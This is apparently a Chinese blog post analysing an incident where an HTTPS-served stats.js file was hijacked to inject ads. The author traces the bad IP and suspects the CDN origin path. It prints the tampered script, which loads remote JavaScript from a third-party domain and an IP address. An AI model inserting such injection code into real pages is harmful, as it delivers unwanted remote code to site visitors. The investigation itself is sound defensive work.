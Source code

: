 ```yaml
---
layout: post
title: HTTPS DNS劫持案例
tags: 技术 原创
---
```


今天早晨到公司后，同事反馈页面中存在注入广告。打开同事提供的页面链接后，第一次没有发现，刷新了大约10次终于发现了这个广告。

顺藤摸瓜找到被劫持的url，请求报文如下：
{% highlight text %}
Request URL:https://domain-a.com/stats.js
Request Method:GET
Status Code:200 OK
Remote Address:111.111.111.19:443
{% endhighlight %}

https协议的js文件被篡改成如下信息（示意文件，做了删改排版）：
{% highlight js %}
var a=document.createElement("script");
a.src="http://domain-b/entrance.js";
document.getElementsByTagName("head")[0].appendChild(a);

var b=document.createElement("script");
b.src="http://222.222.222.235/?url=domain-a.com/stats.js";
document.getElementsByTagName("head")[0].appendChild(b);
{% endhighlight %}

这是典型的js劫持，但这次HTTPS被劫持是**中间人劫持**呢？还是**证书泄露**？或者是其他情况？拉来安全的同事一起分析被劫持的页面请求现场。

HTTPS的静态文件被劫持，可能存在的情况主要有下面三种情况：

1. 证书泄露（被劫持的js文件是一个大公司的文件，证书泄露可能性较小）；
2. 中间人劫持；
3. CDN回源路径中存在劫持。

## 排查步骤如下

1、打开新的浏览器窗口，重复请求被劫持的链接

结果：同一个js未被劫持，再一次验证劫持是随机发生的。

2、打开[站长之家Ping查询](http://ping.chinaz.com/)和[IPIP Ping查询](http://www.ipip.net/ping.php)查询`domain-a.com`域名DNS结果，确认是否存在`111.111.111.19`这个IP。

结果：两个查询都不存在，疑似是劫持者服务器IP。

3、绑定本地hosts文件，再次请求被劫持的URL`https://domain-a.com/stats.js`
{% highlight text %}
111.111.111.19 domain-a.com
{% endhighlight %}
结果：劫持内容复现，证书签名正确，排除中间人劫持，进一步怀疑是CDN回源路径中存在劫持。
